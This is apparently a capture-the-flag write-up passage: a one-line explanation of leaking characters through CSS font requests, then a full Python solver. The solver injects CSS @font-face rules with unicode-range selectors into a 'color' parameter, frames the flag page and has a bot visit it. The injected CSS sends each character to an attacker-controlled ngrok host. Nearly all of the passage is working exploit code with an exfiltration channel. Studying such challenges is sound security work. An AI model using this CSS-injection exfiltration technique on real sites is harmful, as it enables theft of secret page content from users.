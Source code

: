 In this challenge, each `<span>` element contains exactly one character. By selecting each `<span>` tag using the `:nth-child` selector, we can deduce which character is present in each `<span>` based on whether the font is requested.

### Full exploit

```python:solver.py
import threading
import urllib.parse
from flask import Flask, Response, render_template
import time
import requests
import requests
import string
import urllib

app = Flask(__name__)

REMOTE = False
# REMOTE = True

# USE_BOT = False
USE_BOT = True

URL = "http://35.224.222.30:4004/" if REMOTE else "http://localhost:4004/"
LOCAL = "http://local:4003/flag" if USE_BOT or REMOTE else "http://localhost:4003/flag"
EVIL = "https://xxx.ngrok.app/"


@app.route("/")
def index():
    return render_template("index.html")

def gen_css(n):
    x = [f"""@font-face{{font-family:'T';src:url('{EVIL}leak/{n}/{c}');unicode-range:U+{"{:04x}".format(ord(c))};}}"""
        for c in string.ascii_lowercase + string.digits + "_{}"]
    return "".join(x) + f""".flag span:nth-child({n+1}){{font-family: 'T';}}"""

def next(n):
    color = urllib.parse.quote("}" + gen_css(n))

    s = requests.session()
    data = {
        "heading": "<a id='isSafe'>x</a>",
        "content": f"""<iframe id=fr name=Flag src="{LOCAL}?color={color}"></iframe>"""
    }
    if USE_BOT:
        r = s.post(URL + "visit", json=data)
        print(r.text)
    else:
        r = s.get(URL + "convert", params=data)
        print(r.url)

cur = ""
@app.route("/leak/<n>/<c>")
def leak(n, c):
    global cur
    cur += c
    print(n, c)
    print(cur)
    time.sleep(13)
    next(int(n) + 1)
    return Response(status=200)
```